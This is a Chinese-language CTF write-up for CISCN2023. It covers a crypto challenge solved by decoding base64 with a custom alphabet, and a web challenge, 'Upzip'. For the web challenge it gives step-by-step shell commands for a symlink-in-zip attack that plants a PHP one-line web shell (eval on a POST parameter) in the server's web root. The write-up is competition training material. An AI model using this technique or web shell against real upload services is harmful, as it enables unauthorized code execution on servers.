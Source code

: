 ### CISCN2023

#### CRYPTO

##### sign_in_passwd

```
j2rXjx8yjd=YRZWyTIuwRdbyQdbqR3R9iZmsScutj2iqj3/tidj1jd=D
GHI3KLMNJOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5
```

题目提供了换表的base64（下面一行），用cyberchef填进去对上面一行的内容解码即可。

#### WEB

##### Upzip

一道软链接攻击的题目，随便传一个文件会发现它对文件MIME进行检查，并把压缩包里的文件解压到tmp文件夹下，但是tmp文件夹我们并没有访问权限，考虑使用软链接攻击：

1. 先在一个新文件夹下创建一个软链接，链接到Apache服务器的网页目录下，对它进行压缩

   ```shell
   mkdir unzip
   cd unzip
   ln -s /var/www/html mylink
   zip -y link.zip mylink
   ```

2. 创建一个同名文件夹，这样这个压缩包上传后，解压目标目录下已经存在这个文件夹，就会把解压的文件直接放到这个文件夹。

   ```shell
   mkdir mylink
   echo "<?php eval(\$_POST['a']);?>" > mylink/1.php		// 使用\对 $ 进行转译
   zip -r shell.zip mylink
   ```

3. 首先上传link.zip，/tmp目录下就会有一个叫mylink的软链接。再次上传shell.zip，解压后应该得到一个叫mylink的文件夹，但由于存在同名文件夹，就会把文件夹中的文件直接放到原文件夹下，而原文件夹指向了/var/www/html，所以1.php就被放到了网页根目录下，直接访问1.php即可通过一句话木马getshell。
